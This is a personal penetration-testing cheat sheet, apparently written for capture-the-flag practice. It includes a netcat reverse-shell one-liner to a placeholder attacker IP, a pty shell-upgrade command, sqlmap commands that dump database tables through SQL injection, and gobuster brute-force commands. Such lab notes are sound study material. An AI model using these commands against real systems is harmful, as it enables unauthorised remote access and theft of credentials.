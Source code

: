 <link href="../../styles.module.css" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Encode+Sans+SC&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">


## <span class="copyright">Useful Shit<span style="float:right;">By Shatha Barqawi</span>

<br/><br/>

_________________________


<span class="date">Last Updated: 26/Aug/2021</span> 


<br/> 

### <span class="useful_shit subtitle">Most Reliable Reverse Shell Payload  
  ```console
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER'S IP ADDRESS] [PORT OF THE ATTACKER'S CHOOSING] >/tmp/f
  ```

 <br/><br/> 

### <span class="useful_shit subtitle">Python Script That Spawns a Shell When connecting to a Reverse Shell  
```console
python -c 'import pty;pty.spawn("/bin/bash");'
```
  <br/><br/> 

### <span class="useful_shit subtitle">SQLMAP  
* So I'm taking the machine "Cronos" as my example here because it's the first time I use `sqlmap` in.
* We can enumerate the databases names by writing the following line:
  ```console
  sqlmap -u [LINK OF VICTIM] --data='username=&password=' --method POST --dbs --batch
  ```
* In addition to the databases' names the previous line also provided me with the version of the SQL on the server.  
<br/>
* We can also get the tables' names by writing the following line:
  ```console
  sqlmap -u [LINK OF VICTIM] --data="username=&password=" --method POST -D [DATABASE NAME] --dump all --batch
  ```
* When using this command I also got the content of the admin table. 
* Sqlmap seems to use the SQLi vulneribility in the application to gain access to:
  * Determine the schema of the database (database, table and column names).
  * Dump data from tables.
  * Potentially upload or download files to the database server machine.
  * Perform out-of-band tests.
  * Dump usernames, password hashes, privileges and roles.
  * Pass hashes off to a password cracker for a dictionary attack.
  * Perform "blind" and "boolean-based" sql injection attacks (if the web application doesn't return any error messages then sqlmap is the most time-saving tool in this case).
  * Potentially even launch a remote shell on the database server.

 <br/><br/> 

### <span class="useful_shit subtitle">Robots.txt  

<blockquote>
The file robots.txt is used to give instructions to web robots, such as search engine crawlers, about locations within the web site that robots are allowed, or not allowed, to crawl and index.  
The presence of the robots.txt does not in itself present any kind of security vulnerability. However, it is often used to identify restricted or private areas of a site's contents. The information in the file may therefore help an attacker to map out the site's contents, especially if some of the locations identified are not linked from elsewhere in the site. If the application relies on robots.txt to protect access to these areas, and does not enforce proper access control over them, then this presents a serious vulnerability.
</blockquote>  

 <br/><br/> 

### <span class="useful_shit subtitle">Gobuster Bruteforcing Directories and Subdomains  
* Command to bruteforece in `DIR` mode  
```console
gobuster dir -u [VICTIM'S LINK] -w [WORDLIST PATH]
```  

* Command to bruteforce `DNS` mode  
```console
gobuster dns -d [WEB SERVICE DOMAIN] -W [WORDLIST PATH]
```



dns zone transfer :  
dirsearch instead of dirbuster/gobuster (git clone it from github)
